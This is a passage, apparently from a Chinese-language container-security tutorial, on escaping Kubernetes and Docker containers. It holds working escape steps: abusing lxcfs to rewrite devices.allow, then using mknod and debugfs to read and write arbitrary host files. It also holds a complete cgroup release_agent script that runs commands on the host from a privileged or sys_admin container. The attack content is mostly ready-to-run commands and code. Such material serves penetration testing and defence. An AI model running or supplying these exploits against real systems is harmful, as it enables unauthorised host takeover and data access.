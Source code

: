 然后在容器执行`lxcfs /data/test/lxcfs/`修改data 目录下的权限

此时容器内会出现一个新的虚拟路径，并且会绑定当前容器的 devices subsystem cgroup 进入容器内，且在容器内有权限对该 devices subsystem 进行修改。

一路cd下去到`devices.allow`文件

`echo a > devices.allow` 可以修改当前容器的设备访问权限，致使我们在容器内可以访问所有类型的设备

由CVE-2020-8557这个具有 Kubernetes 特色的拒绝服务漏洞可知，`/etc/hosts`，` /dev/termination-log`，`/etc/resolv.conf`， `/etc/hostname` 这四个容器内文件是由默认从宿主机挂载进容器的，所以在他们的挂载信息内很容易能获取到主设备号 ID

```bash
cat /proc/self/mountinfo | grep etc/
```

使用 mknod 创建相应的设备文件目录并使用 debugfs 进行访问，此时我们就有了读写宿主机任意文件的权限。

```
mknod mknod_near b 8 3
debugfs -w mknod_near
```

即使没有安装和使用 lxcfs，当容器为 privileged、sys_admin 等特殊配置时，可以使用相同的手法进行逃逸

(在容器内 CAPABILITIES sys_admin 其实是 privileged 的子集)

工具：https://github.com/cdk-team/CDK/wiki/Exploit:-lxcfs-rw

## 创建 cgroup

另外一个比较出名的手法就是利用 cgroup release_agent 进行容器逃逸以在宿主机执行命令，这个手法同样可以作用于 sys_admin 的容器

利用脚本参考https://github.com/neargle/cloud_native_security_test_case/blob/master/privileged/1-host-ps.sh

```bash
#!/bin/bash

set -uex

mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

sleep 2
cat "/output"
```

```bash
#从 mount 信息中找出宿主机内对应当前容器内部文件结构的路径
sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
```
